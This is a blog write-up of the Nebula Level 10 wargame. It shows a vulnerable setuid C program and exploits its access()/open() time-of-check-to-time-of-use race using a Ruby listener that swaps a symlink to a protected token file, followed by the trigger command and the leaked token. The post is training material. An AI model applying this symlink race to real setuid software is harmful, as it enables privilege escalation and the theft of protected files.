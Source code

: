 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 10"
date: 2014-01-25 12:40:53 +0800
comments: true
categories: Exercises Nebula Security
---
```


### About

The setuid binary at */home/flag10/flag10* binary will upload any file given, as long as it meets the requirements of the *access()* system call.

To do this level, log in as the *level10* account with the password *level10*. Files for this level can be found in /home/flag10.

### Source Code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
    exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
    int fd;
    int ffd;
    int rc;
    struct sockaddr_in sin;
    char buffer[4096];
  	
    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
  	
    fd = socket(AF_INET, SOCK_STREAM, 0);
  	
    memset(&sin, 0, sizeof(struct sockaddr_in));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = inet_addr(host);
    sin.sin_port = htons(18211);
  	
    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
      printf("Unable to connect to host %s\n", host);
      exit(EXIT_FAILURE);
    }
  	
#define HITHERE ".oO Oo.\n"
    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
      printf("Unable to write banner to host %s\n", host);
      exit(EXIT_FAILURE);
    }
#undef HITHERE
  
    printf("Connected!\nSending file .. "); fflush(stdout);
  	
    ffd = open(file, O_RDONLY);
    if(ffd == -1) {
      printf("Damn. Unable to open file\n");
      exit(EXIT_FAILURE);
    }
  	
    rc = read(ffd, buffer, sizeof(buffer));
    if(rc == -1) {
      printf("Unable to read from file: %s\n", strerror(errno));
      exit(EXIT_FAILURE);
    }
  	
    write(fd, buffer, rc);
  	
    printf("wrote file!\n");
  } else {
    printf("You don't have access to %s\n", file);
  }
}
```

<!-- more -->

There at two files in the directory /home/flag10, *flag10* and *token*. The source code of executable *flag10* in shown above, and *token* contains the password of user *flag10*. The goal is to read the content of *token*.

The attack comes from a common bug called [Time of check to time of use](http://en.wikipedia.org/wiki/Time-of-check-to-time-of-use), the Wiki page above explains precisely about what this bug is and how it can be exploited. So in my imagination this is how this attack would look like: 

1. pass */home/level10/token* whick links to a real user(*level10*) readable file */home/level10/test* to the program as `argv[1]`
2. */home/flag10/flag10* checks whether this file is accessable at line 24(with the result true)
3. modify the file to link to */home/flag10/token* when */home/flag10/flag10* is executing code between line 24 and line 54
4. when */home/flag10/flag10* reads the file at line 54, it reads */home/flag10/token*

The most important step mentioned above is step 3, it is hard to control the time! Fortunately, the *flag10* program will send a banner before actually read the file(line 46), this leaves me some time to make some change!

Notice that the content of the file would be transmit through a socket connection, so I need to write my own server code. In my consideration, I need to change the file */home/level10/token* immediately after the server accepts a connection from the client, I wrote this server code in Ruby:

``` ruby
require 'socket'

server = TCPServer.new(18211)
loop {
    client = server.accept
    `rm /home/level10/token; ln -s /home/flag10/token /home/level10/token`
    while msg = client.gets
        puts "RECV: #{msg}"
    end
}
```

After the server was started, I triggered the vulnerability with the following command

	$ /home/flag10/flag10 ~/token 127.0.0.1

Note that the symbolic file *~/token* must exist and point to a file that is readable by user *level10* before the program *flag10* is executed. 

The output of the Ruby code was not always as expected, sometimes the client read the file before the server changed it, but as long as it could be right, it hacked!

``` bash
level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: hello world

level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
